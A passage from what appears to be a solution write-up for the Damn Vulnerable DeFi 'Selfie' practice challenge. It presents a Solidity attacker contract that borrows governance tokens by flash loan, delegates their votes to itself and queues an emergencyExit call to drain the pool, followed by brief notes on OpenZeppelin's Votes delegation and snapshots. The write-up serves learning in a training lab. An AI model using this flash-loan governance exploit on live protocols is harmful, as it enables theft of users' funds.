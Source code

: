 ```solidity
    address public recovery;

    SimpleGovernance public governance;
    SelfiePool public pool;

    constructor(SelfiePool _pool, SimpleGovernance _governance, address _recovery) {
        pool = _pool;
        governance = _governance;
        recovery = _recovery;
    }

    function onFlashLoan(
        address sender,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) external returns (bytes32) {
        
        DamnValuableVotes(token).delegate(address(this));

        governance.queueAction(
            address(pool),
            0,
            abi.encodeWithSignature("emergencyExit(address)", recovery)
        );

        DamnValuableVotes(token).approve(address(pool), amount);

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    function exploit() external {

        pool.flashLoan(
            IERC3156FlashBorrower(address(this)),
            address(pool.token()),
            pool.maxFlashLoan(address(pool.token())),
            ""
        );
    }
}
```

#### Learning by doing: Votes
`Votes` abstract contract turns any token (`ERC20`, `ERC721`, etc.) into a governance voting token, and instead of just using balances as votes, it introduces:
- **Delegation**: token holders delegate their voting power
- **Historical lookup**: voting power at past blocks (used in **snapshot voting**)
- **Efficient storage**: using `Checkpoints.Trace208` 
